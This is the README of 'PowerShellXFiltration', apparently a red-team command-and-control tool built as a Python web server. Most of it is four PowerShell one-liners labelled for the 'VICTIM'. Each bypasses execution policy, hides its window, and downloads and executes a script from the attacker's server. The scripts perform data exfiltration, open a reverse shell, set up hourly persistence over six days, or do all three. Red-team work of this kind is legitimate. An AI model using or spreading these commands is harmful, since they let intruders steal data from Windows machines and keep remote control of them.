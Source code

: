 ## PowerShellXFiltration
A Python web server to execute several actions on a Windows system, acting like a C2.
Useful for redteam.

### Example
1. Change the settings in `config.py`.
2. Run:
```
ATTACKER> python3 server.py

#For data exfiltration
VICTIM> powershell -ep bypass -windowstyle hidden -c "$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("http://<SERVER-IP>:<SERVER-PORT>/exf");"

#For reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("http://<SERVER-IP>:<SERVER-PORT>/rvs");"

#For running a persistent command (by default runs every hour for 6 days, but can be changed in `client_pers.ps1`)
VICTIM> powershell -ep bypass -windowstyle hidden -c "$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("http://<SERVER-IP>:<SERVER-PORT>/pers");"

#For running data exfiltration + reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("http://<SERVER-IP>:<SERVER-PORT>/all");"
```

